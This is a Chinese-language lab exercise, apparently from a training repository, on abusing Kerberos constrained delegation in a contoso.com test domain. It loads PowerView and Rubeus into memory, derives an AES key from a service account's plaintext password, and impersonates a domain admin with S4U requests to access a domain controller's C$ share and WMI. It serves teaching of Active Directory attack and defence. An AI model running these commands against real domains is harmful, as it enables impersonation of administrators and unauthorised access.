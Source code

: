 # Exercise 5 - Kerberos Classic Delegation

## Tools

所需工具:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

## Exercise

在本練習中，我們將嘗試利用taskservice的委派權限偽冒任意使用者存取ad-01

首先我們先載入所需模組(Powerview.ps1、Invoke-Rubeus.ps1)

```powershell
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

列舉具有委派權限的Domain user

```powershell
Get-DomainUser -TrustedToAuth
```

查看具委派權限的Domain user是具有哪些服務的委派權限

```powershell
Get-DomainUser -TrustedToAuth | select -ExpandProperty msds-allowedtodelegateto
```

經查看domain user `taskservice`具有三個服務的委派權限，且我們具有taskservice的明文密碼。
可利用明文密碼產生後續要發起S4U2SELF請求的AES KEY

```powershell
Invoke-Rubeus -Command "hash /password:Amsterdam2015 /domain:contoso.com /user:taskservice"
```

以下指令可另外開啟一個powershell session，可不影響目前使用者(john)的kerberos ticket。

```powershell
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```

首先我們利用 S4U2SELF偽冒domain admin user `Bruce Willis` (bwillis)並使用S4U2PROXY分別取得AD-01上的CIFS、HOST和RPCSS的Service Ticket，
這三個SPN分別為以下服務:
- CIFS : SMB
- HOST、RPCSS : WMI


```powershell
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:cifs/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:host/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:rpcss/ad-01.contoso.com /ptt"
```

列舉目前取得的kerberos ticket

```powershell
klist
```

嘗試存取ad-01的SMB服務

```powershell
ls \\ad-01.contoso.com\C$
```

嘗試利用ad-01的WMI服務列舉該電腦所有的Process

```powershell
Get-WmiObject -Class win32_process -ComputerName ad-01.contoso.com
```